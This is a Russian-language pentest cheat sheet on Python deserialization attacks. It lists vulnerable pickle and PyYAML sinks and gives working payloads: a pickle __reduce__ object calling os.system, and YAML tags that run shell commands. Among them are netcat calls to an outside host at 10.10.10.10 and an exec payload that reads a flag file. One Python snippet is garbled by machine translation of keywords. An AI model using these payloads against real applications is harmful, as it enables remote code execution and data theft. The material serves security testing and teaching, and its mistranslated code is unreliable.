 * [Десериализация Python](#Десериализация-Python)
* [Инструменты](#Инструменты)
* [Методология](#Методология)
  * [Pickle](#Pickle)
  * [PyYAML](#PyYAML)
* [URL](#URL)

# Десериализация Python

> Десериализация Python — это процесс восстановления объектов Python из сериализованных данных, обычно выполняемый с использованием таких форматов, как JSON, pickle или YAML.
>> Модуль pickle — часто используемый инструмент в Python для этой цели, поскольку он может сериализовать и десериализовать сложные объекты Python, включая пользовательские классы.

# Инструменты

j0lt-github/python-deserialization-attack-payload-generator — Сериализованная полезная нагрузка для RCE-атаки на десериализацию на приложения Python, где для десериализации сериализованных данных используются модули pickle, PyYAML, ruamel.yaml или jsonpickle.

# Методология

**В исходном коде Python найдите следующие приёмники:**

* cPickle.loads
* pickle.loads
* _pickle.loads
* jsonpickle.decode

### Pickle

Следующий код — это простой пример использования cPickle для генерации auth_token, представляющего собой сериализованный объект User. :warning: import cPickle будет работать только на Python 2
```
import cPickle
from base64 import b64encode, b64decode

class User:
def __init__(self):
self.username = "anonymous"
self.password = "anonymous"
self.rank = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Ваш токен авторизации: {}").format(auth_token)
```

Уязвимость возникает при загрузке токена из пользовательского ввода.

```
new_token = raw_input("Новый токен авторизации: ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```
> Модуль pickle не защищён от ошибочных или вредоносных данных.

```
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
def __reduce__(self):
return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Ваш токен Evil : {}").format(evil_token)
```

### PyYAML

> Десериализация YAML — это процесс преобразования данных в формате YAML обратно в объекты в таких языках программирования, как Python, Ruby или Java. YAML популярен для файлов конфигурации и сериализации данных, поскольку он удобен для чтения человеком и поддерживает сложные структуры данных.
```
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```
```
!!python/object/apply:subprocess.Popen
- ls
```
```
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
state:
update: !!python/name:exec
```
Начиная с версии PyYaml 6.0, загрузчик по умолчанию для ```load``` был переключен на SafeLoader, что снижает риски удалённого выполнения кода. PR #420 - [Исправление](https://github.com/yaml/pyyaml/issues/420)

Уязвимыми приёмниками теперь являются ```yaml.unsafe_load``` и ```yaml.load(input, Loader=yaml.UnsafeLoader)```.
```
с open('exploit_unsafeloader.yml') в качестве файла:
data = yaml.load(file,Loader=yaml.UnsafeLoader)
```


# URL

* [yaml](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)
* [yaml](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
* [MgicMethods](https://coderpad.io/blog/development/guide-to-python-magic-methods/)
